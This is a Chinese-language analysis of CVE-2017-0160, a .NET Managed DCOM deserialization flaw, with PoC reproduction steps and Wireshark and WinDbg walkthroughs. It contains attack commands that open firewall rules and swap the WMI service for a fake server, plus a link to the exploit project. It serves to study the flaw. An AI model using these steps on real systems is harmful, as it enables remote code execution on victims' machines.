

## CVE-2017-0160漏洞分析

### 漏洞介绍

通过.NET管理DCOM的服务被称为Managed DCOM，其中的IManagedObject接口允许当客户端连接一个不可信任的服务端时，可强制该客户端对恶意构造的BinaryFormatter stream进行反序列化，最终可导致任意代码执行。

### 漏洞分析

.NET远程处理是微软.NET Framework 中的一种网络通信技术，与 XML Web Service 不同的是，它可以使用SOAP 以外的协议来通信，而在服务端和客户端之间所操作的方法近乎相同，客户端可以不必考虑使用的协议，即可访问服务端所开放的对象。

DCOM（分布式组件对象模式）基于组件对象模型（COM），COM提供了一套允许同一台计算机上的客户端和服务器之间进行通信的接口，而通过DCOM，客户端程序对象能够请求来自网络中另一台计算机上的服务器程序对象。

在.NET framework中DCOM常被用于访问WMI (Windows Management Instrumentation) 。WMI是 Windows 系统管理的核心技术，WinMgmt.exe是Windows管理服务，用于系统管理员创建WIndows管理脚本。在System.Management命名空间中的过时类型虽然如今已经被新的Cim类型代替，它们依旧可以作为Powershell中Get-WmiObject命令的后端被访问。当.NET客户端通过IWbemLevel1Login::NTLMLogin方法查询IManagedObject时，将会尝试开启RCW ([Runtime Callable Wrapper](https://msdn.microsoft.com/en-us/library/8bwh56xe(v=vs.110).aspx)) 服务并在本地创建一个远程序列化对象的拷贝，因此将给用户带来风险。

想要达到攻击目的，需要在服务器端将原本的WMI服务替换为定制的包含恶意构造对象的程序，或者在客户端与服务器进行MITM (中间人) 攻击。在漏洞发现者所提供的PoC中，步骤如下：

1) 编译恶意[C# 项目](https://github.com/offensive-security/exploitdb-bin-sploits/raw/master/bin-sploits/41903.zip)，将生成的二进制文件拷贝到攻击者机器的`c:\service\FakeWmiServer.exe`路径下；

2) 在攻击者机器中运行如下命令，配置防火墙规则 (1, 2) 并替换WMI服务 (3, 4)；

```
1. New-NetFirewallRule -DisplayName FAKEWMI -Enabled True -Profile Any -Direction Inbound -Program C:\service\FakeWMIService.exe -Protocol Tcp -LocalPort Any -RemotePort Any -LocalAddress Any -RemoteAddress Any
2. New-NetFirewallRule -DisplayName FAKEWMI -Enabled True -Profile Any -Direction Outbound -Program C:\service\FakeWMIService.exe -Protocol Tcp -LocalPort Any -RemotePort Any -LocalAddress Any -RemoteAddress Any
3. sc.exe config winmgmt binPath= c:\service\FakeWMIService.exe type= own
4. Restart-Service winmgmt -Force
```

3) 在受害者主机中开启powershell并运行如下命令：

```
Get-WmiObject -Class Win32_Process -ComputerName 攻击者IP
```

受害者将会从攻击者主机中下载序列化对象，并在本地反序列化执行任意代码。

让我们详细分析在攻击者与受害者交互过程中发生了什么：

当.NET运行时获取到一个COM对象时，将从CCW ([COM Callable Wrapper](https://msdn.microsoft.com/en-us/library/f07c8z1c(v=vs.110).aspx)) 对该对象进行"unwrap"，并避免创建RCW。根据[官方文档](https://msdn.microsoft.com/en-us/library/cc233722.aspx)，在该过程中.NET运行时将执行如下步骤：

1. 调用COM对象的*QueryInterface*，判断其是否实现了*IManagedObject*接口，如果没有，则返回一个合适的RCW。
2. 调用*GetObjectIdentity*接口，校验GUID与AppDomain ID的合法性，并查询在运行时表中是否存在相应的CCW值，获取真实的managed对象的指针并返回该指针。
3. 调用*GetSerializedBuffer*接口，检查该.NET对象是否可被序列化，如果可以，则将该对象传递给[BinaryFormatter::Serialize](https://msdn.microsoft.com/en-us/library/c5sbs8z9(v=vs.110).aspx)将该对象转换为二进制字符串 (Binary String, BSTR) 格式。接着将该序列化后的对象发送给客户端，客户端将调用[BinaryFormatter::Deserialize](https://msdn.microsoft.com/en-us/library/b85344hz(v=vs.110).aspx)对其进行反序列化。


复现该PoC并使用Wireshark抓包，使用`dcom`作为过滤器，可以看到在编号为No.501的包中192.158.182.133 (受害者) 向192.168.182.130 (攻击者) 发送了*QueryInterface*请求*IManagedObject*接口。


在编号为No.508的包中攻击者向受害者发送了经过序列化的对象。


在Wireshark中可以看到该序列化的二进制字符串对象：


在FakeWmiServer.cs中我们可以看到构建该序列化对象Process的源代码，在成功反序列化该对象后将执行`cmd /C notepad`弹出记事本。


我们可以在攻击者主机中使用WinDbg附加FakeWMIService.exe进行调试。


继续运行，看到FakeWmiServer首先进行了常规操作：调用了SetClientInfo以及EstablishPosition。


接着调用NTLMLogin，从下方的源码可以看到通过`new FakeWbemServices()`创建了一个新的FakeWbemServices对象。


该对象的定义如下，其中GetObjectData就为FakeWbemServices对象中定义的函数之一。


让我们继续在受害者主机中使用WinDbg挂载在powershell.exe进程上进行调试。



通过`bp kernel32!CreateProcessW`命令，在创建新进程时下断点。


利用SOS.dll提供的功能，可以查看此时程序所有线程的调用堆栈。由下到上的顺序，可见在该线程中首先进行了初始化，并通过`System.Management.SecuredConnectHandler.ConnectNSecureIWbemServices()`连接远程攻击者端的服务。


接着获取了远程攻击者发送的序列化对象，调用`System.Runtime.Serialization.Formatters.Binary.BinaryFormatter.Deserialize()`对其进行反序列化。


最终通过`System.Diagnostics.Process.StartWithShellExecuteEx()`启动了新的命令执行任务，执行`cmd /C notepad`弹出记事本。

